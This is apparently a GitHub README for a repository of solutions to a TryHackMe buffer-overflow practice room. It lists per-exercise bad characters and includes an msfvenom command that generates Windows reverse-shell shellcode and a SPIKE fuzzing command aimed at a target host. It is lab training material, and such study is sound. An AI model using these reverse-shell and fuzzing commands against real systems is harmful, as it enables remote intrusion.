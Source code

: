 # THM_Buffer-Overflow-Prep

Each folder numbered from 1 to x contains the scripts from fuzzing to the stage of creating a final **exploit**

Buffer overflow Room can be Found at:--> https://tryhackme.com/room/bufferoverflowprep

**command used for shellcode generation to Fit with scripts**

     msfvenom -p windows/shell_reverse_tcp LHOST=<The-Listening-ip> LPORT=<Listening-port> -f py -b "<badChars-specific-to-overflow>" EXITFUNC=thread -v shellcode

**command to be used with spike scripts to find payload triggering the crash**

     generic_send_tcp <target-ip> 1337{this port is specific to the oscp.exe} fuzz.spk 0 0
    
 More on spike:--> https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
  
# About Fuzz.py Scripts
     
**The fuzz.py scripts will not Display the output Till you press CTRL + C {yeah I know add a except statement but i find no use in it lol} For this very reason a time dealy of 5 seconds is Added so as soon as you see the application crash in immunity press CTRL + C{in 5 sec delay} to stop the script and this would also give us the bytes at which application crashed**
     
     
# OVERFLOW 1

**Bad Chars:--> \x00\x07\x2e\xa0**


# OVERFLOW 2

**Bad Chars:--> \x00\x23\x3c\x83\xa0\xba**

# OVERFLOW 3

**Bad Chars:--> \x00\x11\x40\x5f\xb8\xee**

# OVERFLOW 4

**Bad Chars:--> \x00\xa9\xcd\xd4**

# OVERFLOW 5

**Bad Chars:--> \x00\x16\x2f\xf4\xfd**

# OVERFLOW 6

**Bad Chars:--> \x00\x08\x2c\xad**

# OVERFLOW 7

**Bad Chars:--> \x00\x8c\xae\xbe\xfb**

               # Important Note

     → Our Fuzz script crashed the script at 1300 bytes but we see that the EIP register is still not reached or in other words still not Filled with  all A's which it ideally should be so we increase the buffer from 1300 to 1400 and this time it does fill EIP with 41414141 which is when we are good to Go :)


# OVERFLOW 8

**Bad Chars:--> \x00\x1d\x2e\xc7\xee**


# NOTE

  *The badChars scripts present in each overflow directory contains a badChars variable from which also badchars specific to the overflow have been eliminated* 
  
 **scripts are to be run with python but you may adjust some encoding in place to make them work with python3** 
 
**Other Overflows will be added as I do them**
